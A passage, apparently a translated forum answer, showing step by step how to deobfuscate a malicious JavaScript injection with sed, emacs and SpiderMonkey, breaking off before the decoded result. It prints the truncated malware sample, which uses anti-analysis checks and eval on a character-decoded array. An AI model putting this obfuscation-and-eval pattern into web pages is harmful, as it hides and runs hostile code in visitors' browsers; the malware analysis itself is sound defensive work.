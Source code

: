 现在`badscript2`包含一个*javascript 编码的病毒*

```
<script>try{if(window.document)window["document"]["body"]="1...
n=["9","9","45","42","17"...;if(v)ev(z)}}}</script> 
```

阅读这个小脚本后（保留`html`标签）：

```
sed < badscript2 -e 's/<\/\?script>//g' >badscript3 
```

**3.**很少阅读 javascript 代码（我正在使用 emacs）

```
rename s/$/.js/ badscript3 
emacs badscript3.js 
```

...一些格式操作...保存...

```
sed <badscript3.js -e 's/\t/        /g;s/^/    /;s/^\(.\{76\}\).*$/\1.../' 
try{
    if (window.document) window["document"]["body"]="123"}
catch (bawetawe) { 
    if(window.document){
        v=window;
        try{fawbe--}catch(afnwenew){
            try{(v+v)()}catch(gngrthn){
                try{
                    if(020===0x10) v["document"]["bo"+"dy"]="123"
                }catch(gfdnfdgber){
                    m=123;
                    if((alert+"").indexOf("n"+"a"+"ti"+"ve")!==-1) 
                        ev=window["eval"];
                }
            }
            n=["9","9","45","42","17","1f","40","4b","3o","4h","49","41"...
            h=2;
            s="";
            if(m)for(i=0;i-631!=0;i++){
                k=i;
                if(window["document"])
                    s+=String.fromCharCode(parseInt(n[i],25));
            }
            z=s;
            if(v)ev(z)
        }
    }
} 
```

所以可以看出*有趣*的部分来自`n=[...`和`ev(z)`。为此，我使用*Mozilla 的 Spidermonkey*二进制工具`smjs`：

在保留第一个（可读）部分和一些在命令行下不起作用的测试之后`smjs`，比如`window`or `document`，**并**更改**最后一个**操作`ev`（在第一部分`ev=window.eval`中定义为更*smjs*适当的函数（我选择：`print()`;-），有什么发送至`smjs`：
